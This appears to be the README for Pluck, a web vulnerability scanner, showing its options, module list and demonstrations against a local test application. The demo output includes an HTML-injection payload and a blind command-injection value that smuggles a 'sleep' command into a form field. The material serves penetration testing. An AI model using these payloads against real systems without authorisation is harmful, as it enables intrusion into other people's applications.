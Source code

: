 # Pluck

Pluck is a web application vulnerability scanner with custom payload generation function. It injects all the generated payloads into all the possible injection points and check the response of the server for multiple scenarios, depending on the generated payload type.

### Help

```bash
usage: pluck.py [-h] [-r] [-x] [-b] [-s] [-p] [-k] [--list-modules] [-li] [--test] [-I] [--payload-timeout] [-m] [-P] [--oast] [--exclude-parameter] [--continue-on-success]

Pluck Web Application Vulnerability Tester

options:
  -h, --help            show this help message and exit

Pluck Request Handling:
  -r , --request        Set the initial request
  -x , --proxy          Set the Proxy
  -b , --base-address   Set the base address for URL creation
  -s , --protocol       Set the protocol http/https
  -p , --port           Set the web application port number
  -k, --ignore-cert     Ignore the SSL Warnings

Pluck General Options:
  --list-modules        List the available modules
  -li, --list-injection-points
                        List the available injection points
  --test

Pluck Execution Options:
  -I , --injection-points 
                        Set injection points ',' coma separated
  --payload-timeout     Set the payload timeout.
  -m , --modules        Set the using modules
  -P , --parameters     Set the testing parameters
  --oast                Set Collaborator address for OAST
  --exclude-parameter   Exclude parameter from testing
  --continue-on-success
                        Continue Testing if found a vulnerability
```

### Modules

```
+----------------+-----------------------------+
| Module Name    | Summary                     |
+----------------+-----------------------------+
| xss            | XSS Tester Module           |
| http_methods   | HTTP Method Tester          |
| html_injection | HTML Injection Tester       |
| command_inject | OS Command Injection Tester |
| ored           | Open Redirection Tester     |
| reflection     | Parameter Reflection Tester |
| php            | PHP Code Injection Tester   |
| ssi            | SSI Injection Tester        |
| sqli           | SQL Injection Tester        |
| traversal      | Directory Traversal Tester  |
| template       | Template Injection Tester   |
| crlf           | CRLF Injection Tester       |
| shellshock     | Shell Shock Tester          |
+----------------+-----------------------------+
```

### Example Injection Point Identification

This is the example HTTP request which I parsed and below the found injection points by the PayloadInjector module in JSON format.

```http
POST /commandi_blind.php HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/commandi_blind.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=9dcv4k8ope03vgcrbub4p9f012
Connection: close

target=127.0.0.1&form=submit
```

Injection points:

```js
{
     "path": [
          "/commandi_blind.php",
          "commandi_blind.php"
     ],
     "query": [],
     "body": [
          "target",
          "form"
     ],
     "headers": [
          "Host",
          "Content-Length",
          "Cache-Control",
          "sec-ch-ua",
          "sec-ch-ua-mobile",
          "sec-ch-ua-platform",
          "Upgrade-Insecure-Requests",
          "Origin",
          "Content-Type",
          "User-Agent",
          "Accept",
          "Sec-Fetch-Site",
          "Sec-Fetch-Mode",
          "Sec-Fetch-User",
          "Sec-Fetch-Dest",
          "Referer",
          "Accept-Encoding",
          "Accept-Language",
          "Cookie",
          "Connection"
     ],
     "cookies": [
          "security_level",
          "PHPSESSID"
     ]
}
```


### HTML Injection GET Request Demonstration

**Obtain a request and save to a file**

```http
GET /htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/htmli_get.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
Connection: close

```

**Execute the script**

Set the module to `html_injection` and the parameters to `firstname` and `lastname`. The application found the correct payload and print out the unique ID.


```bash
python3 pluck.py -r /tmp/req -m "html_injection" -I "query" -P "firstname,lastname"
### Testing Parameters ###
URL:  http://127.0.0.1:8888/htmli_get.php?firstname=test&lastname=test&form=submit
PATH:  /htmli_get.php?firstname=test&lastname=test&form=submit
METHOD:  GET
Proxy: 127.0.0.1:8080
Parameters To Test:  ['firstname', 'lastname']
Modules to run:  ['html_injection']
Injection POints:  ['query']
[*] Executing the HTML Injection Tester module
Library Items:  1
[!] HTML Injection found in query firstname parameter with <div><img src='http://127.0.01/?r=q4OUnZcwKrcgAaBD&d= payload! Request ID: cde8bf77-b4d2-4509-8891-67b45770a8ab
```

**Found the request in burp**

Copy the request id and filter the HTTP history in burp to obtain the proper payload.
 
 ![image](https://github.com/user-attachments/assets/c9207c22-9b69-4864-b069-78f105dc533c)
 
 The request contained the payload and therespose the injected HTML payload
 
 ![image](https://github.com/user-attachments/assets/56ad6cad-9822-46ee-909c-b20a4450167d)


### Blind Command Injection Demonstration
 
 Http request obtained from Burp:
 
 ```http
 POST /commandi_blind.php HTTP/1.1
 Host: 127.0.0.1:8888
 Content-Length: 28
 Cache-Control: max-age=0
 sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
 sec-ch-ua-mobile: ?0
 sec-ch-ua-platform: "Linux"
 Upgrade-Insecure-Requests: 1
 Origin: http://127.0.0.1:8888
 Content-Type: application/x-www-form-urlencoded
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 Sec-Fetch-Site: same-origin
 Sec-Fetch-Mode: navigate
 Sec-Fetch-User: ?1
 Sec-Fetch-Dest: document
 Referer: http://127.0.0.1:8888/commandi_blind.php
 Accept-Encoding: gzip, deflate, br
 Accept-Language: en-US,en;q=0.9
 Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
 Connection: close
 
 target=127.0.0.1&form=submit
 ```
 
 Execute the script:
 
 ```bash
 python3 pluck.py -r /tmp/req -m "command_inject" -I "body" -P "target"
 ### Testing Parameters ###
 URL:  http://127.0.0.1:8888/commandi_blind.php
 PATH:  /commandi_blind.php
 METHOD:  POST
 Proxy: 127.0.0.1:8080
 Parameters To Test:  ['target']
 Modules to run:  ['command_inject']
 Injection POints:  ['body']
 [*] Executing the OS Command Injector module
 Reason:  Elapsed Time 18.036525
 Generator Sleep:  15
 Library Items:  1
 [!] OS Command Injection found in body target parameter with 
 sleep${IFS}8${IFS}&&${IFS}sleep${IFS}8# payload! Request ID: fb1bf360-9b3a-4d4b-b869-8bed588782ae
 ```
 
 ![image](https://github.com/user-attachments/assets/d6c52c66-14fd-4ea8-869a-9c9d8dc5d04d)


